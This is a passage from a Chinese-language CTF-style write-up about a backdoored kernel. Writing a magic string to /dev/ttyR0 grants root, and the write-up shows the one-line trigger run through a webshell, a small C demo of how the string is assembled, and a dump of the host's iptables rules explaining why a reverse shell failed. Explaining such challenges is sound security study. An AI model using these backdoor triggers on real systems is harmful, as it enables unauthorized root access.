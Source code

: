 ```
echo "g3tPr1v" > /dev/ttyR0
```

觉得上面 IDA 截图思路不清晰的同学可以编译下面的程序进行测试，看看最终究竟是什么～

```
#include<stdio.h>

void main() {
  char a[4];
  char b[5];
  char magic[8];
  strcpy(a, "g3t");
  strcpy(b, "Pr1v");
  strcpy(magic, "g0tR0ot");
  snprintf(magic, 8 uLL, "%s%s", a, b);
  printf("%s", magic);
}
```

## Root

回到一开始的 webshell，加持现在的内核后门，拿到 root 就不是一件难事，运行：

```
id;echo "g3tPr1v" > /dev/ttyR0;id
```

![](https://vip1.loli.net/2020/05/24/zSmDlvBOIhF7irZ.png)

root 权限到手！

## 番外 - 为什么反弹不了 shell

有 root 权限之后我通过 `iptables-save` 拉了一下 iptables 规则

```
# Generated by iptables-save v1.6.0 on Sun May 24 17:36:37 2020
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p icmp -j ACCEPT
-A INPUT -p udp -m udp --sport 53 -m u32 --u32 "0x1e=0x81000000:0x81ffffff" -j ACCEPT
-A INPUT -p tcp -m tcp --dport 20 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 21 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 25 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 43 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 53 -j ACCEPT
-A INPUT -p udp -m udp --dport 53 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A INPUT -j REJECT --reject-with icmp-port-unreachable
-A OUTPUT -p icmp -j ACCEPT
-A OUTPUT -p udp -m udp --dport 53 -m u32 --u32 "0x1e=0x1000000:0x1ffffff" -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 20 -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
-A OUTPUT -p tcp -m state --state ESTABLISHED -j ACCEPT
-A OUTPUT -p udp -m state --state ESTABLISHED -j ACCEPT
-A OUTPUT -j REJECT --reject-with icmp-port-unreachable
COMMIT
# Completed on Sun May 24 17:36:37 2020

```
